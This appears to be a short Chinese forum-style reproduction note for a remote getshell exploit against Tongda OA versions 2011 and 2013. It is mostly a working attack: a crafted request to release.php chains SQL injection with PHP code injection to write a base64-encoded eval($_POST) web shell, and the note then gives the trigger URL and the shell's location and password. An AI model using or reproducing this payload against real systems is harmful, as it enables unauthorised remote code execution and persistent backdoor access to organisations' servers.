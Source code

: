 # 通达oa 2011-2013 通杀GETSHELL

> 原文：[https://www.zhihuifly.com/t/topic/3331](https://www.zhihuifly.com/t/topic/3331)

# 通达oa 2011-2013 通杀GETSHELL

## 一、漏洞简介

## 二、漏洞影响

2011、2013版本

## 三、复现过程

第一步:

```
http://0-sec.org/general/crm/studio/modules/EntityRelease/release.php?entity_name=1%d5'%20or%20sys_function.FUNC_ID=1%23%20${%20fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))} 
```

第二步:

```
http://0-sec.org/general/email/index.php 
```

SHELL:

```
http://0-sec.org/general/email/shell.php 密码C 
```